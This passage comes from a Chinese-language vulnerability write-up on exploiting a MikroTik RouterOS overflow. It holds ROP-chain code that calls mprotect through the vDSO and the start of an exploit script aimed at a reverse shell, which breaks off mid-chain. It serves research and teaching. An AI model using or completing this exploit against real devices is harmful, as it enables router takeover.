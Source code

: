 ![][13]

ROP链的构造和原文中的大同小异，可以选择更加高效的gadget来组合，其中学到的是在vDSO中调用`__kernel_vsyscall`系统调用的汇编指令，而且该地址[不受](https://bbs.pediy.com/thread-226696.htm)RouterOS系统中ASLR的影响，照葫芦画瓢写了下：

```python
rop = ""
rop += p32(0x08048eec) # pop eax ; ret
rop += p32(0x7d)       # eax -> mprotect system call
rop += p32(0x080543e7) # pop edx ; pop ecx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
rop += p32(0x7)        # edx -> prot for mprotect
rop += p32(0x14000)    # ecx -> len for mprotect
rop += p32(0x08074000) # ebx -> addr for mprotect
rop += p32(0x90909090) # esi -> junk
rop += p32(0x90909090) # edi -> junk
rop += p32(0x90909090) # ebp -> junk
rop += p32(0xffffe422) # int 0x80 ; pop ebp ; pop edx ; pop ecx ; ret
rop += p32(0x90909090) # ebp -> junk
rop += p32(0x90909090) # edx -> junk
rop += p32(0x90909090) # ecx -> junk
rop += p32(0xffffffff) # addr for shellcode in heap
```

紧接着添加120字节的`\x90`作为shellcode，想看看rop中有没有被bad char影响，header中message的长度就是`34+1+64+64+1+120=0x11c`，可发送数据包后根本没有进入漏洞逻辑，调试可知在`read`数据过程中莫名奇妙地少了4个字节，讲道理程序只有一处`read`函数的触发而且count为0x10000，此处疑问只能求师傅们教教我了：

![][14]

程序在处理message之前还会校验一下长度，因为接收的长度小于header中的长度，程序直接返回也就不能到达漏洞点了：

![][15]

这里推测可能是存在bad char或者程序逻辑和我逆向预期的不同，有一个规避的方法就是在上图中是可以使接收的数据长度大于header中的长度字段，其会根据长度字段生成一个新的message对象传递给后续函数使用。还注意到`read`接收的数据保存在堆地址上并没有释放掉，可以考虑使用其中保存的原始shellcode的固定地址：

![][16]

最终完成执行权限的添加后，查看该堆地址的内容是否有被破坏，发现虽然有所偏移但shellcode的起始地址还是固定不变的：

![][17]

综上，可以构建exploit如下，完成反弹shell的操作：

```python
#!/usr/bin/env python

import socket
import struct

p32 = lambda x : struct.pack('I', x)

header = "\x81\x00\x01\x1c"

padding = "A"*34 + "\x80" + "B"*64

rop = ""
rop += p32(0x08048eec) # pop eax ; ret
rop += p32(0x7d)       # eax -> mprotect system call
rop += p32(0x080543e7) # pop edx ; pop ecx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
rop += p32(0x7)        # edx -> prot for mprotect
rop += p32(0x14000)    # ecx -> len for mprotect
rop += p32(0x08074000) # ebx -> addr for mprotect
rop += p32(0x90909090) # esi -> junk
rop += p32(0x90909090) # edi -> junk
rop += p32(0x90909090) # ebp -> junk
rop += p32(0xffffe422) # int 0x80 ; pop ebp ; pop edx ; pop ecx ; ret
rop += p32(0x90909090) # ebp -> junk
```

[1]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39kpnpwj20nb0cimyw.jpg
[2]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39l5jthj20h20aymxf.jpg
[3]: https://wx2.sinaimg.cn/large/ee2fecafgy1g2n39llmtwj20k3077mxf.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39m173qj20lg07lgm8.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39mq2zyj20i00ai0t9.jpg
[6]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39n5ubaj20q708fwet.jpg
[7]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39nrfm3j20qk0e0mzt.jpg
[8]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39oadimj20qo0azq4c.jpg
[9]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39ov8bsj20ro0f9tan.jpg
[10]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39pdg0zj20lb0eg40s.jpg
[11]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39pujybj20ej0edwen.jpg
[12]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39q9rhgj20kd09maaf.jpg
[13]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39rlh50j20t70czq50.jpg
[14]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39qxfblj20qu0fijtw.jpg
[15]: https://wx4.sinaimg.cn/large/ee2fecafgy1g2n39s0y6vj20km0783ys.jpg
[16]: https://wx1.sinaimg.cn/large/ee2fecafgy1g2n39su8kvj20kv0e3dh9.jpg
[17]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39sees0j20fa04odfx.jpg
[18]: https://wx3.sinaimg.cn/large/ee2fecafgy1g2n39ta4hnj20kc04374o.jpg